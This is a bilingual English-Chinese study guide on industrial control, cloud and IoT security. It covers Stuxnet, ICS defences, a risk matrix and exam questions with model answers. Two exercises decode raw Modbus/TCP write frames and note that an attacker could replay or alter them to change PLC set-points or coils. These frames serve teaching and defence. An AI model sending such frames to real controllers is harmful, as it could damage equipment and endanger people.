An air gap（气隙）physically separates the control network from the Internet and corporate IT. It is weaker than it sounds. USB drives, maintenance laptops, vendor remote access, dual-homed servers and wireless links bridge it, and plants were connected on purpose for easier management. Stuxnet (found in 2010) is the classic case. It was a worm aimed at Siemens Step 7 software and the PLCs that drove uranium-enrichment centrifuges in Iran.气隙将控制网络与互联网和企业 IT 在物理上隔开。它的可靠性比字面上看起来要弱。U 盘、维护用笔记本、供应商远程访问、双宿主服务器和无线链路都会跨越这道隔离；而且为了便于管理，工厂有时会刻意接入网络。Stuxnet（2010 年被发现）是典型案例。它是一种蠕虫，针对西门子 Step 7 软件，以及在伊朗驱动铀浓缩离心机的 PLC。
- It crossed the air gap on infected USB drives and spread inside using several Windows zero-day vulnerabilities.它借助受感染的 U 盘跨越气隙，并利用多个 Windows 零日漏洞在内部扩散。
- Stolen code-signing certificates made its drivers look legitimate.被盗的代码签名证书使其驱动程序看起来合法可信。
- It activated only on hosts with the targeted Step 7 set-up. It then reprogrammed the PLCs to run the centrifuges outside safe speeds.它只在具有目标 Step 7 配置的主机上激活。随后，它重新编程 PLC，使离心机运行在安全转速之外。
- A PLC rootkit hid the changes. Recorded normal sensor values were replayed to operators, so the process looked healthy while equipment was damaged.一个 PLC rootkit 隐藏了这些改动。录制下来的正常传感器数值被回放给操作人员，因此过程看起来一切正常，而设备却在受损。
Lessons: isolation is not a security control. Integrity attacks on controllers cause physical damage. Monitoring must not trust values reported by a possibly compromised controller.经验教训：隔离本身不是安全控制措施。针对控制器的完整性攻击会造成物理损坏。监控不能信任可能已被攻陷的控制器所报告的数值。
Step 5: defences第 5 步：防御措施
- Segmentation: zones and conduits, with a firewalled industrial DMZ between business and control networks (Chapter 21) and no direct Internet path.网络分段：划分区域与通道，在企业网络和控制网络之间设置带防火墙的工业 DMZ（第 21 章），且不存在直接通往互联网的路径。
- One-way gateways (data diodes) for outbound data such as historian feeds.单向网关（数据二极管），用于外发数据，例如历史数据的输出。
- Protocol-aware firewalls and passive monitoring (Chapter 22): allow only expected function codes and sources, alert on writes from new hosts.协议感知防火墙与被动监控（第 22 章）：仅允许预期的功能码和来源，并对来自新主机的写操作发出告警。
- Hardening: validated patches or virtual patching, application allow-listing, USB control, and remote access with multi-factor authentication (Chapter 17).加固：经过验证的补丁或虚拟补丁、应用白名单、U 盘控制，以及采用多因素认证的远程访问（见第 17 章）。
- Independent safety systems that a cyber compromise cannot override, plus offline backups of PLC logic.独立的安全系统，网络攻击无法绕过；另外还需对 PLC 逻辑进行离线备份。
Step 6: risk matrix and register第 6 步：风险矩阵与风险登记表
In words: risk level comes from how likely a threat is and how bad its result would be; priority is what management decides to treat first.用文字表述：风险等级取决于威胁发生的可能性及其后果的严重程度；优先级则是管理层决定先处理哪一项。
A risk assessment lists key assets and rates each risk by likelihood and consequence. A matrix gives the risk level. The case is the fictional Silver Star Mines.风险评估列出关键资产，并按可能性和后果对每项风险进行评级。矩阵给出风险等级。本案例是一个虚构的矿业公司 Silver Star Mines。
| Likelihood可能性 | Insignificant微不足道 | Minor轻微 | Moderate中 | Major严重 | Catastrophic灾难性 |
|---|---|---|---|---|---|
| Almost certain几乎确定 | High高 | High高 | Extreme极高 | Extreme极高 | Extreme极高 |
| Likely很可能 | Medium中等 | High高 | High高 | Extreme极高 | Extreme极高 |
| Possible可能 | Low低 | Medium中等 | High高 | Extreme极高 | Extreme极高 |
| Unlikely不太可能 | Low低 | Low低 | Medium中等 | High高 | Extreme极高 |
| Rare罕见 | Low低 | Low低 | Medium中等 | High高 | High高 |
| Asset and threat资产与威胁 | Likelihood可能性 | Consequence后果 | Level等级 | Priority优先级 |
|---|---|---|---|---|
| SCADA network and nodes: unauthorized modification (layered firewalls)SCADA 网络及节点：未经授权的修改（分层防火墙） | Rare罕见 | Major严重 | High高 | 1 |
| Stored files and databases: corruption, theft, loss存储的文件与数据库：损坏、被盗、丢失 | Possible可能 | Major严重 | Extreme极高 | 2 |
| Financial system: attacks, errors财务系统：攻击、错误 | Possible可能 | Moderate中 | High高 | 3 |
| Procurement system: attacks, errors采购系统：攻击、错误 | Possible可能 | Moderate中 | High高 | 4 |
| Maintenance/production system: attacks, errors维护/生产系统：攻击、错误 | Possible可能 | Minor轻微 | Medium中等 | 5 |
| E-mail services: attacks, errors (external mail gateway)电子邮件服务：攻击、错误（外部邮件网关） | Almost certain几乎确定 | Minor轻微 | High高 | 6 |
Priority is a management decision, not just the matrix. E-mail (High) ranks last, behind the Medium maintenance system, because its compromise would not stop mining output and its treatment lies with the parent company's mail gateway.优先级是管理层的决定，而不只是看矩阵。电子邮件（高）排在最后，位于中等风险的维护系统之后，因为它被攻陷不会使采矿产出停止，而且其处理责任在母公司的邮件网关。
Practice练习
Q1. (Decode) Decode the Modbus/TCP request 00 02 00 00 00 06 01 06 00 0A 03 E8 and say what an attacker who can reach the PLC could do with it.Q1.（解码）解码 Modbus/TCP 请求 00 02 00 00 00 06 01 06 00 0A 03 E8，并说明能够到达 PLC 的攻击者可以利用它做什么。
Answer
Transaction ID 2; protocol ID 0 (Modbus); length 6; unit ID 1; function 0x06 = write single register; register address 0x000A = 10; value 0x03E8 = 1000. The frame sets register 10 (for example a pump set-point) to 1000. Without authentication an attacker can replay it or change the last two bytes to write any other value, for example 00 00.事务标识符为 2；协议标识符为 0（即 Modbus）；长度为 6；单元标识符为 1；功能码 0x06 表示写单个寄存器；寄存器地址 0x000A = 10；数值 0x03E8 = 1000。该帧将寄存器 10（例如水泵的设定值）设置为 1000。在没有认证的情况下，攻击者可以重放该帧，或修改最后两个字节以写入任意其他数值，例如 00 00。
Q2. (True/false) "A control network with no Internet connection is immune to malware such as Stuxnet." Justify.Q2.（判断）“没有互联网连接的控制网络可免受 Stuxnet 之类恶意软件的侵害。”请说明理由。
Answer
False. Stuxnet was designed for exactly this case: it entered on infected USB drives and contractor laptops, spread with Windows zero-days and then reprogrammed the PLCs. Isolation lowers exposure but removable media, maintenance access and vendor connections bridge it, so it must be backed by segmentation, media control and monitoring.错误。Stuxnet 恰恰就是针对这种情况而设计的：它通过受感染的 U 盘和承包商的笔记本电脑进入，利用 Windows 零日漏洞扩散，随后对 PLC 重新编程。隔离可以降低暴露程度，但可移动介质、维护访问以及厂商连接都可能跨越隔离，因此必须辅以网络分段、介质管控和监控。
Q3. (Risk) Use the matrix: (a) "chlorine-dosing PLC reprogrammed" is Unlikely with Catastrophic consequence; (b) "historian unavailable" is Likely with Minor consequence. Give the levels and say which is treated first and what could change the order.Q3.（风险）利用矩阵进行判断：（a）“加氯 PLC 被重新编程”的可能性为不太可能，后果为灾难性；（b）“历史数据库不可用”的可能性为很可能，后果为轻微。给出各自的风险等级，并说明哪一项先行处置，以及什么因素可能改变处置顺序。
Answer
(a) Extreme; (b) High. By level, (a) comes first. Management may reorder for reasons the matrix does not capture: a risk to life is treated first even if its level is lower (SCADA before stored data at Silver Star), and a risk whose treatment lies outside management's control may be ranked last or shared (e-mail).（a）极高；（b）高。按等级，（a）先行处置。管理层可能会因矩阵未能反映的原因调整顺序：涉及生命安全的风险即使等级较低也会优先处置（在 Silver Star，SCADA 的处置先于存储数据），而处置不在管理层控制范围之内的风险则可能排在最后或由他方共同承担（如电子邮件）。
Terms to recognise ★需要认识的术语
| Term术语 | What to know要知道什么 |
|---|---|
| Unknown risk profile未知风险概况 | Older CSA threat: the client cedes control, so it must define roles and request logs and infrastructure details较早的 CSA 威胁：客户放弃控制权，因此必须定义角色，并要求提供日志和基础设施细节 |
| OpenStack modulesOpenStack 模块 | Nova manages VM life cycles, Glance stores VM images, Swift is a distributed object storeNova 管理虚拟机的生命周期，Glance 存储虚拟机镜像，Swift 是分布式对象存储 |
| Mirai | 2016 botnet of IoT devices with default credentials; DDoS on US east coast Internet access2016 年的物联网设备僵尸网络，使用默认凭据；对美国东海岸的互联网接入发起 DDoS |
| NISTIR 8259 | Activities for IoT device manufacturers; the companion documents 8259A and 8259B give the baseline of core device capabilities面向物联网设备制造商的活动；配套文件 8259A 和 8259B 给出了核心设备能力的基线 |
| Y.2067 | ITU-T text on gateway requirements: identify accesses, authenticate, protect data, support updatesITU-T 关于网关要求的文本：识别访问、进行认证、保护数据、支持更新 |
| Weak freshness弱新鲜性 | MiniSec guarantee: messages are partially ordered without a local clockMiniSec 的保证：消息在没有本地时钟的情况下仍可部分排序 |
| TinyOS | Minimal operating system for wireless sensor networks, home of MiniSec面向无线传感器网络的最小操作系统，MiniSec 就集成在其中 |
| DCS | Distributed control system; with SCADA and PLC-based systems it forms the ICS分布式控制系统；它与基于 SCADA 和基于 PLC 的系统一起构成 ICS |
| Historian历史数据服务器 | Control-center component that logs process data控制中心的组件，记录过程数据 |
| DNP3 Secure Authentication, OPC UA, IEC 62351DNP3 安全认证（DNP3 Secure Authentication）、OPC UA、IEC 62351 | Secure protocol variants that are rarely deployed in legacy plants安全协议变体，在老旧工厂中很少部署 |
| Data diode数据二极管 | One-way gateway: data flow out of the control network, none flows in单向网关：数据只能流出控制网络，不能流入 |
| Zones and conduits区域与通道 | Segmentation unit of ICS networks: zones of equal trust, conduits for the controlled linksICS 网络的分段单元：信任等级相同的区域，以及受控链路的通道 |
Exam-style questions考试题型练习
Q1. (Cloud models and architecture, 10 marks) A university moves (i) staff e-mail, (ii) a student-built web application and (iii) a GPU cluster for research to the cloud.Q1.（云模型与架构，10 分）某大学将（i）教职工电子邮件、（ii）学生开发的一个 Web 应用，以及（iii）用于科研的 GPU 集群迁移到云端。
- (a) Define cloud computing and list its five essential characteristics. (3 marks)（a）定义云计算，并列出其五项基本特征（3 分）。
- (b) Choose the service model for (i) to (iii) and say who patches the operating system in each case. (3 marks)（b）为（i）至（iii）选择服务模型，并说明每种情况下由谁为操作系统打补丁（3 分）。
- (c) Name the five actors of the NIST reference architecture and explain the three services a cloud broker can offer. (4 marks)（c）列出 NIST 参考架构中的五类参与方，并说明云代理可提供的三类服务（4 分）。
Answer
(a) Cloud computing is a model for ubiquitous, convenient, on-demand network access to a shared pool of configurable resources (networks, servers, storage, applications, services) that can be rapidly provisioned and released with minimal management effort or provider interaction. The characteristics are on-demand self-service, broad network access, resource pooling (multi-tenancy), rapid elasticity and measured service.（a）云计算是一种模式，能够随时随地、便捷地按需访问共享的可配置资源池（网络、服务器、存储、应用和服务），这些资源可以以极少的管理投入或极少与提供者交互的方式快速供应和释放。其特征包括：按需自助服务、广泛的网络接入、资源池化（多租户）、快速弹性伸缩以及可计量的服务。
(b) (i) SaaS: the provider patches the OS. (ii) PaaS: the provider patches the OS and runtime; the university maintains its own application. (iii) IaaS: the university installs and patches the OS and everything above the VM.（b）（i）SaaS：由提供者为操作系统打补丁。（ii）PaaS：由提供者为操作系统和运行时环境打补丁；大学负责维护自己的应用。（iii）IaaS：大学负责安装并为操作系统以及虚拟机之上的所有内容打补丁。
(c) The actors are consumer, provider, auditor, broker and carrier. The broker offers: intermediation (value-added services such as identity management, performance reporting, enhanced security); aggregation (combining several services to meet needs no single CSP covers, or to optimize cost or performance); arbitrage (like aggregation, but the services are not fixed and the broker chooses among providers each time, for example by best score).（c）参与方包括消费者、提供者、审计者、代理和承运者。代理可提供以下服务：中介服务（增值服务，如身份管理、性能报告、增强的安全性）；聚合服务（组合多项服务，以满足单一云服务提供商无法覆盖的需求，或优化成本与性能）；套利服务（与聚合类似，但所用服务并非固定，代理每次都会在多个提供者之间进行选择，例如依据最佳评分）。
思路：先分层说清谁管什么，再答五个参与者；broker 的三个词不要混。
Q2. (Cloud threats and data protection, 10 marks) A bank plans to keep customer data in a multi-tenant public cloud database.Q2.（云威胁与数据保护，10 分）某银行计划将客户数据保存在多租户公有云数据库中。
- (a) Distinguish multi-instance from multi-tenant databases and say which gives the bank more control. (2 marks)（a）区分多实例数据库与多租户数据库，并说明哪一种使银行拥有更多控制权（2 分）。
- (b) How can the bank protect the data at rest and in transit, and what stays outside its control? (3 marks)（b）银行如何保护静态数据和传输中的数据，以及哪些内容仍不在其控制之内（3 分）？
- (c) For account hijacking, malicious insiders and shared technology vulnerabilities, give the STRIDE category and two countermeasures each. (5 marks)（c）针对账户劫持、恶意内部人员以及共享技术漏洞，分别给出其所属的 STRIDE 类别及两项对策（5 分）。
Answer
(a) Multi-instance: each subscriber gets its own DBMS on its own VM and controls roles, authorization and administration. Multi-tenant: subscribers share a predefined environment and rows carry a subscriber tag; it looks exclusive but depends on the provider's secure set-up. Multi-instance gives more control.（a）多实例：每个订阅者在各自的虚拟机上拥有独立的数据库管理系统（DBMS），并掌控角色、授权和管理工作。多租户：订阅者共享一个预先定义的环境，数据行带有订阅者标签；它看似独享，但其安全性依赖于提供者的安全配置。多实例提供了更多的控制权。
(b) At rest the bank encrypts the database itself, stores only ciphertext and keeps the key, so the CSP cannot read it. In transit it uses TLS or a VPN; the CSP takes part in key management, and access control depends on the service model. Outside the bank's control remain availability (deletion, corruption, DoS), the provider's physical and virtualization security, and the key-management risk itself.（b）静态数据方面，银行自行加密数据库，仅存储密文并自行保管密钥，因此云服务提供商（CSP）无法读取数据。传输中的数据则使用 TLS 或 VPN 加密；CSP 也参与密钥管理，而访问控制则取决于服务模型。仍不在银行控制之内的包括：可用性（删除、损坏、拒绝服务）、提供者的物理安全和虚拟化安全，以及密钥管理本身的风险。
(c) Account hijacking: spoofing identity (stolen credentials then enable tampering, disclosure and elevation); two-factor authentication with no shared credentials; proactive monitoring. Malicious insiders: information disclosure (and tampering); supplier assessment and HR requirements in the contract; transparency, compliance reporting and breach notification (client-side encryption limits what an insider can read). Shared technology vulnerabilities: elevation of privilege and information disclosure across tenants; secure configuration with monitoring for unauthorized change; patching SLAs with vulnerability scans and configuration audits.（c）账户劫持：身份伪装（被盗的凭据随后可用于篡改、信息泄露和权限提升）；不共享凭据的双因素认证；主动监控。恶意内部人员：信息泄露（以及篡改）；合同中的供应商评估及人力资源要求；透明度、合规报告和违规通知（客户端加密可限制内部人员能够读取的内容）。共享技术漏洞：跨租户的权限提升和信息泄露；带有未授权变更监控的安全配置；配合漏洞扫描和配置审计的补丁服务级别协议（SLA）。
思路：先说多实例/多租户的控制差别；加密加自持密钥是核心；威胁按 STRIDE 对号入座。
Q3. (APT and SecaaS, 10 marks)Q3.（APT 与 SecaaS，10 分）
- (a) Define an advanced persistent threat and list its stages. (4 marks)（a）定义高级持续性威胁（APT），并列出其各个阶段（4 分）。
- (b) Explain how threat intelligence changes the outcome. (2 marks)（b）解释威胁情报如何改变结果（2 分）。
- (c) Which SecaaS categories help detect or limit an APT in a cloud-hosted enterprise, and how? (4 marks)（c）在云端托管的企业中，哪些 SecaaS 类别有助于检测或遏制 APT，它们是如何做到的（4 分）？
Answer
(a) An APT is an attack in which an unauthorized party gets into a network and stays undetected for a long time, to steal data rather than to damage. Stages: background research; initial attack (usually social engineering and malware download); establishing a foothold; enabling persistence; enterprise reconnaissance; lateral movement; privilege escalation; gathering and encrypting data; exfiltration; maintaining a long-term presence.（a）APT 是这样一种攻击：未经授权的一方进入网络，并在很长时间内不被发现，其目的是窃取数据，而非破坏。各阶段包括：背景调查；初始攻击（通常为社会工程学手段和恶意软件下载）；建立立足点；实现持久化；企业内部侦察；横向移动；权限提升；收集并加密数据；数据外泄；长期潜伏。
(b) Threat intelligence describes the most severe external threats (APTs, exploits, zero-days). It gives detection points early, before data leave, and shortens the time to discover a successful attack and so the damage.（b）威胁情报描述的是最严重的外部威胁（APT、漏洞利用、零日漏洞）。它能及早提供检测点，使其在数据外流之前即可被发现，并缩短发现成功攻击所需的时间，从而减少损失。
(c) SIEM correlates logs from networks, servers and applications to reveal lateral movement and unusual transfers. Intrusion management (IDS/IPS) at cloud entry points and on servers detects and blocks intruder traffic. Data loss prevention watches data in motion for exfiltration. Identity and access management with strong authentication and prompt deprovisioning limits stolen credentials and privilege escalation. (E-mail and web security address the initial social-engineering stage.)（c）SIEM 对来自网络、服务器和应用的日志进行关联分析，以发现横向移动和异常传输。在云的入口点及服务器上部署的入侵管理（IDS/IPS）可检测并阻断入侵者的流量。数据防泄漏监控传输中的数据，以发现数据外泄。采用强认证并及时回收权限的身份与访问管理，可限制被盗凭据和权限提升。（电子邮件与 Web 安全针对的是初始阶段的社会工程学攻击。）
易错：APT 的关键词是“隐蔽、长期、窃取”，不是破坏；加密外传数据会躲过特征检测，所以要看流量和目的地。
Q4. (IoT security, 12 marks) A smart factory has 2,000 battery-powered temperature sensors that report through gateways to a fog layer and a cloud.Q4.（IoT 安全，12 分）某智能工厂有 2,000 个电池供电的温度传感器，它们通过网关向雾层和云端上报数据。
- (a) Name the four levels of the Cisco IoT model and say where the sensors, gateways and cloud applications sit. (3 marks)（a）列出 Cisco 物联网模型的四个层级，并说明传感器、网关和云应用分别位于哪一层（3 分）。
- (b) Explain which devices are inside the gateway's zone of security and give two protections for the constrained sensors. (3 marks)（b）解释哪些设备位于网关的安全区域之内，并为受限的传感器给出两种保护措施（3 分）。
- (c) Describe the four components of Cisco's secure IoT framework as applied here. (4 marks)（c）结合本例，描述 Cisco 安全物联网框架的四个组成部分（4 分）。
- (d) Explain how MiniSec-U prevents replay of a recorded sensor packet. (2 marks)（d）解释 MiniSec-U 如何防止对已记录的传感器数据包进行重放（2 分）。
Answer
(a) Smart objects/embedded systems (the sensors); fog/edge network (gateways and local processing); core network (backbone); data center/cloud (applications, storage, management).（a）智能对象/嵌入式系统（传感器）；雾/边缘网络（网关和本地处理）；核心网络（骨干网）；数据中心/云（应用、存储和管理）。
(b) Only the gateway-to-center path (secured with TLS or IPsec) is inside the zone; sensors behind the gateway are outside it. Protect them with link-layer authenticated encryption using pairwise keys and counters (as MiniSec does), anti-tamper housings and detection, and gateway-sensor authentication.（b）只有从网关到中心的路径（由 TLS 或 IPsec 保护）位于安全区域之内；网关之后的传感器则在其之外。可通过以下方式保护它们：使用成对密钥和计数器的链路层认证加密（与 MiniSec 的做法相同）、防篡改外壳与检测，以及网关与传感器之间的认证。
(c) Authentication: each sensor is identified without a human credential, for example by an X.509 certificate or RFID/MAC identity. Authorization: each sensor may only publish its own readings; applications get only the data they need. Network-enforced policy: segmentation and secure routing of control, management and data traffic. Secure analytics: central visibility of every sensor's identity and attributes, with control of configuration, patches and countermeasures.（c）认证：每个传感器无需人工凭据即可被识别，例如通过 X.509 证书或 RFID/MAC 身份。授权：每个传感器只能发布其自身的读数；应用只能获得所需的数据。网络执行的策略：对控制、管理和数据流量进行分段与安全路由。安全分析：集中掌握每个传感器的身份和属性，并控制其配置、补丁和应对措施。
(d) MiniSec-U uses a strictly increasing per-sender counter as OCB nonce. The receiver stores the last counter per sender and rejects any packet whose counter is not larger. A recorded packet carries an old counter, so it is rejected; altering the counter would make the authentication tag fail.（d）MiniSec-U 以严格递增的、按发送方区分的计数器作为 OCB 的 nonce。接收方为每个发送方保存上一次的计数器，并拒绝计数器不大于该值的任何数据包。被记录的数据包携带的是旧计数器，因而会被拒绝；若修改计数器，则认证标签将校验失败。
思路：网关只保护到中心的链路；传感器一侧要靠链路层加密、认证和防篡改。
Q5. (SCADA and risk, 12 marks) A water utility says its Modbus/TCP control network is "air-gapped".Q5.（SCADA 与风险，12 分）某供水公司称其 Modbus/TCP 控制网络采用了“气隙”隔离。
- (a) Decode
00 01 00 00 00 06 11 05 00 AC FF 00and explain why Modbus gives no protection against an injected command. (4 marks)（a）解码00 01 00 00 00 06 11 05 00 AC FF 00，并解释为什么 Modbus 无法防范注入的命令（4 分）。 - (b) Explain why an air gap is unreliable and how Stuxnet defeated one. (4 marks)（b）解释为什么气隙并不可靠，以及 Stuxnet 是如何突破气隙的（4 分）。
- (c) List four defences. (2 marks)（c）列出四项防御措施（2 分）。
- (d) The risk "unauthorized change of chlorine dosing" is rated Rare with Major consequence, and "corruption of billing data" Possible with Major. Give the levels and explain why management might still treat the first one first. (2 marks)（d）“未经授权更改加氯量”这一风险的可能性为罕见、后果为严重；“账单数据损坏”的可能性为可能、后果为严重。给出各自的风险等级，并解释为什么管理层仍可能先处置前者（2 分）。
Answer
(a) Transaction ID 1, protocol ID 0, length 6, unit ID 17, function 5 (write single coil), coil address 0x00AC = 172, value FF00 = ON. Modbus has no authentication, encryption or signature, so a device obeys any well-formed frame from any host that reaches port 502; frames can also be replayed or altered.（a）事务标识符为 1，协议标识符为 0，长度为 6，单元标识符为 17，功能码为 5（写单个线圈），线圈地址 0x00AC = 172，数值 FF00 = ON。Modbus 没有认证、加密或签名机制，因此只要某主机能够到达端口 502，设备就会服从其发出的任何格式正确的帧；帧也可被重放或篡改。
(b) USB drives, maintenance laptops, vendor remote access, dual-homed servers and wireless links bridge the gap, and plants are connected for management. Stuxnet entered on infected USB drives, spread with Windows zero-days and stolen code-signing certificates, activated only on Siemens Step 7 systems, reprogrammed the PLCs to damage centrifuges and hid by replaying recorded normal sensor values.（b）U 盘、维护用笔记本电脑、厂商远程访问、双宿主服务器以及无线链路都可能跨越气隙，而且工厂出于管理需要而接入网络。Stuxnet 通过受感染的 U 盘进入，借助 Windows 零日漏洞和被盗的代码签名证书扩散，仅在西门子 Step 7 系统上激活，对 PLC 重新编程以损坏离心机，并通过重放已记录的正常传感器数值进行隐藏。
(c) Any four of: network segmentation with an industrial DMZ and firewalls; one-way gateways; protocol-aware firewall or passive IDS; patching or virtual patching with application allow-listing and USB control; remote access with multi-factor authentication; independent safety systems.（c）以下任选四项：带有工业 DMZ 和防火墙的网络分段；单向网关；协议感知防火墙或被动 IDS；带有应用程序白名单和 U 盘控制的补丁或虚拟补丁；采用多因素认证的远程访问；独立的安全系统。
(d) Rare and Major give High; Possible and Major give Extreme. Management may still treat the dosing risk first because a failure could poison or kill people and the regulator would not accept otherwise, as with SCADA at Silver Star. Priority is a management decision; the level only informs it.（d）罕见且严重为高；可能且严重为极高。管理层仍可能先处置加氯风险，因为故障可能导致人员中毒或死亡，而监管机构也不会接受其他做法，正如 Silver Star 的 SCADA 案例那样。优先级是一项管理决策；风险等级只是为其提供参考。
易错：气隙不是安全控制；风险“等级”和处理“优先级”不一定一致，答题时要分开写。
Textbook exercises课后习题
Textbook exercises with answers: 12 questions教材习题及答案，共 12 题，点击展开
E1. (Review Question 13.1, Stallings & Brown) Define cloud computing.E1.（复习题 13.1，Stallings & Brown）定义云计算。
Answer
Cloud computing is a model for enabling ubiquitous, convenient, on-demand network access to a shared pool of configurable computing resources (networks, servers, storage, applications and services) that can be rapidly provisioned and released with minimal management effort or service provider interaction. The consumer rents the resources as a metered service instead of owning them.云计算是一种模式，让用户能够随时、便捷、按需地通过网络访问共享的可配置计算资源池（网络、服务器、存储、应用和服务）。这些资源可以快速供应和释放，所需的管理工作和与服务提供商的交互都很少。消费者以计量服务的方式租用这些资源，而不是自己拥有它们。
思路：关键词是共享资源池、按需网络访问、快速供给、管理成本极低。
E2. (Review Question 13.2, Stallings & Brown) List and briefly define three cloud service models.E2.（复习题 13.2，Stallings & Brown）列出并简要定义三种云服务模型。
Answer
- Software as a Service (SaaS): the provider supplies a complete application used through a browser or thin client; the consumer installs and patches nothing and controls only accounts and settings (for example Gmail, Salesforce).软件即服务（SaaS）：提供商提供一个完整的应用，用户通过浏览器或瘦客户端使用它；用户不需要安装或更新任何东西，只控制账户和设置（例如 Gmail、Salesforce）。
- Platform as a Service (PaaS): the provider supplies a platform of run-times, databases and tools on which the consumer deploys its own applications (for example Google AppEngine, Heroku).平台即服务（PaaS）：提供商提供由运行环境、数据库和工具组成的平台，用户在其上部署自己的应用（例如 Google AppEngine、Heroku）。
- Infrastructure as a Service (IaaS): the provider supplies virtual machines, storage and networks; the consumer manages the operating systems and applications, but not the underlying infrastructure (for example Amazon EC2).基础设施即服务（IaaS）：提供商提供虚拟机、存储和网络；用户管理操作系统和应用，但不管理底层基础设施（例如 Amazon EC2）。
From SaaS to IaaS the consumer controls more of the stack, and so is responsible for more of its security.从 SaaS 到 IaaS，用户控制的部分越来越多，因此也要为更多的安全负责。
E3. (Review Question 22.3, Stallings; 13.3, Stallings & Brown) What is the cloud computing reference architecture?E3.（复习题 22.3，Stallings；13.3，Stallings & Brown）什么是云计算参考架构？
Answer
It is the NIST reference architecture, a generic model that describes what cloud services provide, not how to build them, and gives a common frame to compare services and analyse standards. It has five actors:这是 NIST 参考架构。它是一个通用模型，描述云服务提供什么，而不是怎样构建它们；它为比较服务和分析标准提供了一个共同框架。它包含五类角色：
- Cloud service consumer: has a business relationship with providers and uses their services.云服务消费者：与提供商有业务关系，并使用其服务。
- Cloud service provider: makes a service available to interested parties.云服务提供商：向感兴趣的各方提供服务。
- Cloud auditor: independently assesses the services, operations, performance and security of a cloud implementation.云审计方：独立评估云实现的服务、运营、性能和安全性。
- Cloud broker: manages the use, performance and delivery of services and negotiates between providers and consumers (intermediation, aggregation, arbitrage).云代理：管理服务的使用、性能和交付，并在提供商与消费者之间协商（包括中介、聚合和套利）。
- Cloud carrier: provides connectivity and transport between consumers and providers.云承运商：提供消费者与提供商之间的连接和传输。
E4. (Review Question 22.4, Stallings; 13.4, Stallings & Brown) Describe some of the main cloud-specific security threats.E4.（复习题 22.4，Stallings；13.4，Stallings & Brown）描述一些主要的云特有安全威胁。
Answer
The Cloud Security Alliance lists twelve cloud-specific threats; the main ones are:云安全联盟列出了十二种云特有威胁，其中主要的有以下几种：
- Data breaches: sensitive data of tenants is viewed or stolen; encryption and key management counter it.数据泄露：租户的敏感数据被查看或窃取；加密和密钥管理可以应对这一威胁。
- Weak identity, credential and access management: poor authentication or deprovisioning; use strong, multi-factor authentication.身份、凭证和访问管理薄弱：认证不严或权限撤销不及时；应使用强的多因素认证。
- Insecure APIs: the management interfaces are the control plane of the cloud and must be authenticated and encrypted.不安全的 API：管理接口是云的控制平面，必须经过认证并加密。
- Account hijacking: stolen credentials let the attacker act as the tenant, even attack other tenants as an insider.账户劫持：窃取的凭证使攻击者能够冒充租户行事，甚至以内部人员的身份攻击其他租户。
- Malicious insiders: provider staff have extreme trust.恶意内部人员：提供商的员工拥有极高的信任。
- Data loss and shared technology vulnerabilities: data is deleted or lost, and caches, hypervisors and shared hardware may not isolate tenants.数据丢失和共享技术漏洞：数据被删除或丢失；缓存、虚拟机监控程序和共享硬件可能无法隔离租户。
- Abuse and nefarious use: attackers use easy registration to run spam, malware or DoS.滥用与恶意使用：攻击者利用简单的注册流程发送垃圾邮件、传播恶意软件或发起拒绝服务攻击。
- Denial of service, advanced persistent threats, system vulnerabilities and insufficient due diligence by the consumer.拒绝服务、高级持续性威胁、系统漏洞，以及消费者尽职调查不足。
E5. (Review Question 22.5, Stallings; 13.5, Stallings & Brown) What is OpenStack?E5.（复习题 22.5，Stallings）什么是 OpenStack？
Answer
OpenStack is an open-source cloud operating system for building multi-tenant IaaS clouds from independent modules, such as Nova (virtual machine life cycle), Glance (VM images), Swift (distributed object storage) and Keystone. Keystone is the security module: it provides identity (authentication, roles for role-based access control), tokens issued after authentication and checked by the services, a service catalog of registered endpoints and per-service policies that define what each role may do.OpenStack 是一个开源的云操作系统，用于由相互独立的模块构建多租户的 IaaS 云，这些模块包括 Nova（虚拟机生命周期管理）、Glance（虚拟机镜像）、Swift（分布式对象存储）和 Keystone。Keystone 是安全模块：它提供身份（认证，以及基于角色的访问控制所用的角色）、认证后签发的令牌（由各服务进行检查）、已注册端点的服务目录，以及定义每个角色可以做什么的按服务策略。
E6. (Review Question 13.6, Stallings & Brown) Define the Internet of things.E6.（复习题 13.6，Stallings & Brown）定义物联网。
Answer
The Internet of Things (IoT) is the extension of Internet connectivity to billions of embedded, everyday objects (sensors, actuators, appliances, vehicles, machines) that collect data, communicate, usually wirelessly, and are often controlled remotely, mostly without human intervention. The devices send data through gateways and the fog or edge to cloud platforms that store and analyse it.物联网（IoT）是将因特网连接扩展到数十亿个嵌入式的日常物体上，这些物体包括传感器、执行器、家电、车辆和机器。它们收集数据并进行通信（通常是无线的），而且常常被远程控制，大多无需人工干预。设备通过网关，再经由雾或边缘计算，把数据发送到云平台进行存储和分析。
E7. (Review Question 13.7, Stallings & Brown) List and briefly define the principal components of an IoT-enabled thing.E7.（复习题 13.7，Stallings & Brown）列出并简要定义物联网设备的主要组成部分。
Answer
- Sensor: measures a physical, chemical or biological quantity and gives a proportional electrical signal, analog or digital.传感器：测量物理、化学或生物量，并输出与之成比例的电信号，可以是模拟的，也可以是数字的。
- Actuator: receives a signal from a controller and acts on the environment (a valve, a motor, a lock).执行器：接收控制器的信号，并作用于环境（例如阀门、电机、锁）。
- Microcontroller: the processor that provides the "smart" part: it reads the sensors, runs the logic and drives the actuators.微控制器：提供“智能”的部分，它读取传感器、运行逻辑，并驱动执行器。
- Transceiver: transmits and receives data, usually wirelessly (Wi-Fi, ZigBee, Bluetooth).收发器：通常以无线方式发送和接收数据（例如 Wi-Fi、ZigBee、蓝牙）。
- RFID: tags that identify objects, animals or people by radio and are read (sometimes rewritten) by readers.RFID：通过无线电识别物体、动物或人的标签；标签由读取器读取，有时也可以改写。
E8. (Review Question 13.8, Stallings & Brown) Define the patching vulnerability.E8.（复习题 13.8，Stallings & Brown）定义补丁漏洞。
Answer
The patching vulnerability is the fact that IoT devices usually cannot be patched. Chip makers produce firmware as quickly and cheaply as possible; device makers choose chips by price and features and rarely modify or update the firmware; end users often cannot patch the device or lack the information to do so. Hundreds of millions of connected devices therefore remain exploitable for their whole life, and compromised sensors can feed false data while compromised actuators can operate machinery. The Mirai botnet used such devices.补丁漏洞是指物联网设备通常无法打补丁。芯片厂商尽可能快速、廉价地生产固件；设备厂商按价格和功能选择芯片，很少修改或更新固件；终端用户往往无法给设备打补丁，或者缺少相应的信息。因此，数以亿计的联网设备在整个生命周期内都可能被利用。被攻陷的传感器可能提供虚假数据，被攻陷的执行器则可能操控机器。Mirai 僵尸网络就利用了这类设备。
